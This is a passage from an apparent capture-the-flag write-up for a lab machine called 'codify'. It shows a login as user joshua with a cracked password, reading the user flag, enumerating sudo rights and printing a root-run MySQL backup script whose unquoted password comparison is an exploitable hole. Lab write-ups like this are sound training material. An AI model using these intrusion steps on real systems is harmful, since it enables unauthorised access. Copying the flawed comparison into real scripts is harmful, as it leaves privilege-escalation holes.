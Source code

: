 ```bash
svc@codify:/var/www/contact$ su joshua
Password: spongebob1
joshua@codify:/var/www/contact$ whoami
joshua
joshua@codify:/var/www/contact$
```

Now we can see user.txt flag:
```bash
joshua@codify:~$ ls
user.txt
joshua@codify:~$ cat user.txt 
1e8**************************2c6
```

# Access as root

Let's watch sudoers privileges:

```bash
joshua@codify:~$ sudo -l
[sudo] password for joshua: spongebob1
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

We can run as root that script, let's take it a look:

```bash
joshua@codify:~$ cat /opt/scripts/mysql-backup.sh
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
```